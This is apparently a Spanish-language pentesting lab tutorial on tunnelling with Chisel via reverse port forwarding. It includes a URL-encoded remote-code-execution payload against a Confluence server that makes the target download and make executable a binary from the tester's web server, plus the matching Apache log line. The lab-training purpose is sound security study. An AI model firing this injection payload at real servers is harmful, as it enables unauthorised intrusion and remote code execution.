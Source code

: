 Chisel es una herramienta que encapsula un stream o flujo de datos en HTTP. También emplea el protocolo SSH dentro del túnel para que los datos encapsulados se cifren.

Chisel utiliza una arquitectura cliente-servidor y tiene multitud de opciones.

La opción más común es el *reverse port forwarding*, similar al SSH remote portforwarding; el servidor está configurado en nuestra máquina local y acepta conexiones del cliente en la máquina intermediaria que desvía las conexiones hacia la máquina objetivo.

<div style="text-align:center">
	<img src="{{ 'assets/img/pen/Pasted image 20230615182055.png' | relative_url }}" text-align="center"/>
</div>

Chisel puede ejecutarse en *macOS*, *Linux* y *Windows*, y en varias arquitecturas en cada una. Las herramientas más antiguas como *HTTPTunnel* ofrecen una funcionalidad de tunelización similar, pero carecen de la flexibilidad y las capacidades multiplataforma de Chisel.

Así, el servidor Chisel encapsulará todo lo que enviemos a través del puerto SOCKS y lo empujará a través del túnel HTTP, encriptado con SSH. El cliente de Chisel luego lo desencapsulará y lo empujará donde sea que se dirija tal y como monstramos en la imagen anterior.

Ahora pasemos a la práctica.

- Lo primero consiste en enviar nuestro cliente Chisel a la máquina intermediara, en este caso CONFLUENCE01.

	```
	kali@kali:~$ sudo systemctl start apache2
	[sudo] password for kali:
	
	kali@kali:~$ sudo cp $(which chisel) /var/www/html/
	```

	Observemos que a modo de RCE deberíamos ser capaces de ejecutar el siguiente comando en la máquina CONFLUENCE01 

	```
	wget <LOCALIP>/chisel -O /tmp/chisel && chmod +x /tmp/chisel
	```

	pero dado que la DPI es muy restrictiva no tenemos acceso directo a una shell. Así, lo que hacemos es usar el proof concept del exploit para ejecutar dicho comando:

	```
	kali@kali:~$ curl http://192.168.223.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.221/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
	```

	Podemos confirmar que la request se ha relizado correctemente comprobando los logs en nuestro servidor Apache:

	```
	kali@kali:~$ tail -f /var/log/apache2/access.log
	...
	192.168.50.63 - - [21/Aug/2022:17:41:49 -0400] "GET /chisel HTTP/1.1" 200 8750339 "-" "Wget/1.20.3 (linux-gnu)"
	```
